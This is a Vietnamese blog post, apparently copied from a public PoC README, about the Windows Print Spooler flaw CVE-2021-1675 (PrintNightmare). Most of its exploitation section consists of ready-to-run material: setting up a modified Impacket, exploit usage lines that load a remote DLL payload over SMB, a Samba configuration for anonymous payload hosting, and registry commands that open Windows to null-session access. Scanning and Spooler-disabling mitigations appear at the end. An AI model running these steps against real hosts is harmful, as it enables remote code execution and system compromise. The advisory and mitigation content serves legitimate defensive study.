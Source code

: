 ```yaml
---
title: Lỗi CVE-2021-1675
date: 22/7/2021
layout: single
header:
  teaser: /assets/images/cve.PNG
---
```


## Mô tả 
Microsoft một lần nữa đã cảnh báo người dùng của mình nên vô hiệu hóa service của Windows Print Spooler, sau khi một lỗ hổng mới được phát hiện cho phép hacker có thể cài và thực thi mã độc, virus lên bất cứ PC chạy Windows 10 nào. Mặc dù bản vá sửa lỗi sẽ được Microsoft phát hành sớm nhất có thể, nhưng gã khổng lồ công nghệ khuyến cáo rằng giải pháp hiệu quả nhất hiện nay là vô hiệu hóa hoàn toàn service của Windows Print Spooler.

Đây là lỗ hổng Windows Print Spooler thứ 3 được phát triển chỉ sau năm tuần. Trong khi một lỗ hổng nghiêm trọng khác liên quan đến Windows Print Spooler được xác định và sau đó được Microsoft vá lỗi vào tháng 6 thì gần đây lại xuất hiện một lỗ hổng tương tự mang tên PrintNightmare cũng được Microsoft vá lỗi trong bản cập nhật Windows 10 mới đây. Sự xuất hiện của lỗ hổng mới này là một sự thất vọng của người dùng Windows 10 đối với Microsoft.

Việc triển khai Impacket của PrintNightmare PoC ban đầu được tạo bởi Zhiniang Peng (@edwardzpeng) & Xuefeng Li (@ lxf02942370)

Thực thi DLL từ xa

![](https://raw.githubusercontent.com/cube0x0/CVE-2021-1675/main/Images/poc2.png)


## Cập nhật bản vá 

Microsoft đã phát hành một bản vá để giảm thiểu các cuộc tấn công này nhưng nếu các giá trị dưới đây xuất hiện trên máy thì máy vẫn dễ bị tấn công

```powershell
REG QUERY "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint"

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint
    RestrictDriverInstallationToAdministrators    REG_DWORD    0x0
    NoWarningNoElevationOnInstall    REG_DWORD    0x1
```

## Khai thác 

Trước khi chạy khai thác, bạn cần cài đặt phiên bản Impacket
[![Language](https://img.shields.io/badge/Lang-python-blue.svg)](https://www.python.org)

```powershell
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install

```


Mã Khai thác [CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py)

```powershell
usage: CVE-2021-1675.py [-h] [-hashes LMHASH:NTHASH] [-target-ip ip address] [-port [destination port]] target share

CVE-2021-1675 implementation.

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address>
  share                 Path to DLL. Example '\\10.10.10.10\share\evil.dll'

optional arguments:
  -h, --help            show this help message and exit

authentication:
  -hashes LMHASH:NTHASH
                        NTLM hashes, format is LMHASH:NTHASH

connection:
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name
                        and you cannot resolve it
  -port [destination port]
                        Destination port to connect to SMB Server

Example;
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 '\\192.168.1.215\smb\addCube.dll'
./CVE-2021-1675.py hackit.local/domain_user:Pass123@192.168.1.10 'C:\addCube.dll'

```

Cấu hình MB Cách dễ nhất để lưu trữ tải trọng là sử dụng samba và sửa đổi `/etc/samba/smb.conf` để 
cho phép truy cập ẩn danh

```shell 
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser

```
```powershell
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```
## Scanning 
Tác giả  sử dụng rpcdump.py từ impacket để quét các máy chủ tiềm ẩn dễ bị tấn công, nếu nó trả về một giá trị, nó có thể dễ bị tấn công

```powershell
rpcdump.py @192.168.1.10 | egrep 'MS-RPRN|MS-PAR'

Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol

```

## Hạn chế bị tấn công 
Tắt dịch vụ Bộ đệm
```powershell
Stop-Service Spooler
REG ADD  "HKLM\SYSTEM\CurrentControlSet\Services\Spooler"  /v "Start" /t REG_DWORD /d "4" /f

```

## Thanks 
